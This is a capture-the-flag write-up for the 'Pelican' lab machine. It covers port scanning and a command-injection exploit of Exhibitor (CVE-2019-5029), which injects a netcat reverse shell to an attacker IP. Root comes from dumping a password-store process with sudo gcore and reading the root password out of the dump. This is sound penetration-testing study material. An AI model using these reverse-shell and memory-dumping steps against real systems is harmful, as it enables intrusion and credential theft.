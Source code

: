 ```yaml
---
description: 11/28/2022
---
```


# Pelican (Intermediate)

## Information Gathering

Scanned all TCP ports:

```
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8e16068bef58e707054b427ee9a7e7f (RSA)
|   256 bb999a453f350bb349e6cf1149878d94 (ECDSA)
|_  256 f2ebfc45d7e9807766a39353de00579c (ED25519)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
631/tcp   open  ipp         CUPS 2.2
|_http-title: Forbidden - CUPS v2.2.10
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/2.2 IPP/2.1
2181/tcp  open  zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
2222/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a8e16068bef58e707054b427ee9a7e7f (RSA)
|   256 bb999a453f350bb349e6cf1149878d94 (ECDSA)
|_  256 f2ebfc45d7e9807766a39353de00579c (ED25519)
8080/tcp  open  http        Jetty 1.0
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(1.0)
8081/tcp  open  http        nginx 1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://192.168.211.98:8080/exhibitor/v1/ui/index.html
|_http-server-header: nginx/1.14.2
44091/tcp open  java-rmi    Java RMI
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-11-28T23:54:26
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: pelican
|   NetBIOS computer name: PELICAN\x00
|   Domain name: \x00
|   FQDN: pelican
|_  System time: 2022-11-28T18:54:26-05:00
|_clock-skew: mean: 1h40m00s, deviation: 2h53m12s, median: 0s
```

Enumerated UDP ports:

```
5353/udp  open          mdns            DNS-based service discovery
| dns-service-discovery: 
|   445/tcp smb
|     Address=192.168.211.98
|   Device Information
|_    Address=192.168.211.98
```

Notes:

* 445/Samba -- Anonymous login no access
* 631/CUPS 2.2
* 2181/zookeeper HTTP
* 8080/HTTP Server -- <mark style="color:yellow;">"Exhibitor" for ZooKeeper - v1.0</mark>
  * <mark style="color:yellow;">This seems very unique let's searchsploit it</mark>
  * <mark style="color:red;">Exhibitor Web UI 1.7.1 - Remote Code Execution -- 48654.txt</mark>

## Enumeration

### Port 8080 - HTTP (Jetty 1.0)

<mark style="color:yellow;">Searchsploit</mark>:&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (1) (8).png" alt=""><figcaption></figcaption></figure>

* <mark style="color:yellow;">CVE-2019-5029</mark>

Version Enumeration:&#x20;

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (5) (1).png" alt=""><figcaption><p>v1.0 -- Confirming vulnerability to CVE-2019-5029</p></figcaption></figure>

## Exploitation

### <mark style="color:yellow;">Command Injection - CVE-2019-5029</mark>

48654.txt:

```
The steps to exploit it from a web browser:

    Open the Exhibitor Web UI and click on the Config tab, then flip the Editing switch to ON

    In the “java.env script” field, enter any command surrounded by $() or ``, for example, for a simple reverse shell:

    $(/bin/nc -e /bin/sh 10.0.0.64 4444 &)
    Click Commit > All At Once > OK
    The command may take up to a minute to execute.
```

Exploitation/Obtaining Foothold

1. Navigate to Config
2. Select on next to Editing
3. Next to java.env script, add the following <mark style="color:yellow;">`$(/bin/nc -e /bin/sh 192.168.49.211 1337 &)`</mark>
4. Start nc listener on 1337
5. Select commit > all at once > ok
6. Wait a few seconds for the command to execute and you will get your shell!

<figure><img src="../../../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3) (1) (7).png" alt=""><figcaption></figcaption></figure>

Fix shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## Privilege Escalation

Attempted to exploit Polkit but it did not work for some reason because SSH kept asking for a password even when I would generate SSH keys on the target and transfer it to Kali -- Moving on.

* Uploaded linpeas and found a few interesting things

<figure><img src="../../../.gitbook/assets/image (6) (5).png" alt=""><figcaption><p>password-store looks interesting</p></figcaption></figure>

sudo -l command output:

<figure><img src="../../../.gitbook/assets/image (2) (3) (5).png" alt=""><figcaption></figcaption></figure>

GTFOBins:

<figure><img src="../../../.gitbook/assets/image (5) (4).png" alt=""><figcaption></figcaption></figure>

* We see that gcore can be used to generate core dumps of running processes
* Files often containing sensitive information can be targetted this way
* Since we can leverage our permissions with <mark style="color:yellow;">sudo + gcore, can we dump password-store</mark>?

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption><p>using ps command to find pid of password-store to use with gcore</p></figcaption></figure>

* We see that <mark style="color:yellow;">password-store has a PID of 493</mark>
* Time to run <mark style="color:yellow;">gcore</mark> on it

gcore (create dump of PID 493):

```
sudo gcore 493
(...)

Saved corefile core.493
```

* Dump was saved as core.493

Reading contents of dump with strings:

```
strings core.493

(...)
Password: root:
ClogKingpinInning731
(...)
```

* We seemingly obtain the root password

```
su
Password: ClogKingpinInning731
```

<figure><img src="../../../.gitbook/assets/image (1) (10).png" alt=""><figcaption><p>We are root!</p></figcaption></figure>
